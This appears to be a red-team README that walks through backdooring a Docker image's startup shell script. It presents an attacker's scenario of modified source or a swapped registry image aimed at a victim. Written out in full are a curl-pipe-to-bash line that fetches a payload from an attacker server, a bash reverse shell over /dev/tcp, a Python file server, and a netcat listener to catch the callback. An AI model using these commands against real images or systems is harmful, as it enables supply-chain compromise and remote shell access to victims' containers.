 # Backdoored shell script in container image

## Scenario

You have the acccess to modify docker images either through source that contains a shell script called in the Dockerfile or through an image registry. The shell script that you can modify runs on startup (a pretty common scenario)

## Building the image

First you need to build the image. This is emulating the process that will take place whenever the target image is built. Based on our scenario the victim will either be pulling in the modified source shell script or you replaced the image in the registry after updating the shell script.

The line that ends up backdooring the image will be the following:

```curl -s http://<ip_address>:8000/payload.txt | bash```

### Build the image

* Update line 4 with the ip address of your payload server

```docker build -t backdoor .```

## Setting up the payload server

Next you need to setup the server that will host the file containing your payload. The payload can be anything you want to execute when the container is started. In this example we will use a reverse shell that calls back to a netcat server. I'm using python SimpleHTTPServer to host the file but this can be setup other ways as long as the file can be accessed.

### Create the payload file

```touch payload.txt```


### Add your payload (in this example the reverse shell)

```nohup bash -c bash -i >& /dev/tcp/<ip_address>/8080 0>&1```

* This payload example can be found in payload.txt
* Update the ip address and port with the values for your netcat server

### Starts a server on port 8000 by default

```python -m SimpleHTTPServer```

## Start your Netcat handler

This step is only required if you choose to make your payload a reverse shell. This step will start a netcat server that will handler the callback from your reverse shell.

### Start the netcat listener

```netcat lkvp 8080```

## Start your container

This step emulates what will occur when the backdoored image it deployed and the container starts. The script in the case will only execute once so what you choose to execute should be taken into consideration.

### Start the Docker container (execute the payload)

```docker run -it backdoor```

If everything goes according to plan you should get a callback similar to the this [tweet](https://twitter.com/sneakerhax/status/1416870516976099330?s=20)
